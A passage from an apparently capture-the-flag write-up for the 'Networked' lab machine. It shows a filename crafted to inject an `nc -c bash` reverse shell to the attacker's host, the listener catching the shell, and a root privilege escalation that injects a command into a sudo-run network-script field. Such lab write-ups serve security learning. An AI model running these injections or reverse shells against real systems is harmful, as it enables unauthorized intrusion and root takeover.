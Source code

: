 ```none
touch ';nc -c bash 10.10.14.9 9001;'
```

And we get a shell back on our netcat listener and have elevated to the `guly` user.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.146] 60608
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
```

## Privesc: `guly` to `root`

Started with some manual enumeration, as that seemed the most suitable for this box. Checking `sudo`, there is an entry.

```none
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

As `root` we can run `changename.sh` without supplying a password. Checking the permissions on the `changename.sh` script, we can only read it.

```none
[guly@networked ~]$ ls -lis /usr/local/sbin/changename.sh
13052640 4 -rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh
```

The script reads in some user input to help create a file called `ifcfg-guly` in the `/etc/sysconfig/network-scripts/` folder. Initially this seems harmless, however, there is a known vulnerability. According the the [HackTricks Linux Priviledge Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation#etc-sysconfig-network-scripts-centos-redhat) article, if there is a blank space in any variable set in this file, it will get executed as a command. If we try the script out, for the last attribute I entered `meow id` and the `id` command was run.

```none
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
meow
interface PROXY_METHOD:
meow
interface BROWSER_ONLY:
meow
interface BOOTPROTO:
meow id
uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```
